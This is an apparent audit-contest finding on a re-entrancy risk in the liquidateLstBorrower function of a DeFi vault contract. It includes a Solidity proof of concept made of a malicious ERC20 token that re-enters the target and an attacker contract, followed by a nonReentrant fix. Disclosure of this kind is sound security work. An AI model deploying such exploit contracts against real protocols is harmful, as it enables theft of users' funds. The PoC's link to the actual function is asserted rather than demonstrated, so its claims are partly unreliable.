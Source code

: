 Brave Plum Shetland

High

# Potential Re-entrancy Risk in Liquidation Function in NumaVault.sol

# Summary
https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/NumaProtocol/NumaVault.sol#L1113-L1229
The liquidateLstBorrower function in the smart contract is vulnerable to a potential re-entrancy attack due to external token transfers. Without a nonReentrant guard, the function could be exploited to disrupt its internal state during execution, particularly when transferring tokens or calling other contracts.

# Vulnerability Details
### Issue: The function calls external token contracts (IERC20.safeTransfer and IERC20.safeTransferFrom) which could re-enter the contract if exploited through a malicious token contract or unexpected behavior.
### Impact: Internal state variables (e.g., vaultProfit, receivedNuma, etc.) could be manipulated, leading to inaccurate liquidation outcomes or loss of funds.
### Conditions: Exploitation requires a malicious token contract or another external contract capable of re-entering during execution.
### Severity
High
The reentrancy vulnerability can lead to unexpected behavior in the liquidation process, potentially draining liquidity from the contract, manipulating the liquidation amount, or altering the balance of assets inappropriately.

### Likelihood
Moderate to High
### Impact
High
# Proof of Concept (PoC)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract MaliciousToken is ERC20 {
    address public targetContract;
    address public attacker;
    bool public reentered = false;

    constructor() ERC20("MaliciousToken", "MAL") {
        _mint(msg.sender, 1e18); // Mint initial tokens to deployer
        attacker = msg.sender;
    }

    function setTarget(address _targetContract) external {
        targetContract = _targetContract;
    }

    // Re-entrancy happens here
    function transfer(address recipient, uint256 amount) public override returns (bool) {
        if (!reentered && recipient == targetContract) {
            reentered = true; // Prevent infinite re-entrancy
            // Re-enter the target contract
            LiquidationTarget(targetContract).liquidateLstBorrower(
                attacker,
                1e18, // Arbitrary value
                true, // _swapToInput
                false // _flashloan
            );
        }
        return super.transfer(recipient, amount);
    }
}

interface LiquidationTarget {
    function liquidateLstBorrower(
        address _borrower,
        uint _lstAmount,
        bool _swapToInput,
        bool _flashloan
    ) external;
}

// Attacker contract to trigger reentrancy
contract ReentrancyExploit {
    MaliciousToken public maliciousToken;
    LiquidationTarget public target;

    constructor(address _maliciousToken, address _target) {
        maliciousToken = MaliciousToken(_maliciousToken);
        target = LiquidationTarget(_target);
    }

    function attack() external {
        // Approve and call the liquidation function
        maliciousToken.approve(address(target), type(uint256).max);
        target.liquidateLstBorrower(
            address(this),
            1e18, // Arbitrary value
            true, // _swapToInput
            false // _flashloan
        );
    }
}
```
Deploy a malicious ERC20 contract that implements a re-entrant transfer or transferFrom function.
Trigger liquidateLstBorrower with this malicious token as input.
The malicious token contract re-enters the function, disrupting its execution and potentially modifying profits or vault balances.
# Recommendations
Add Re-entrancy Guard:
Utilize OpenZeppelin's ReentrancyGuard library and apply the nonReentrant modifier to the liquidateLstBorrower function.

```solidity

function liquidateLstBorrower(
    address _borrower,
    uint _lstAmount,
    bool _swapToInput,
    bool _flashloan
) external whenNotPaused notBorrower(_borrower) nonReentrant {
    ...
}
```
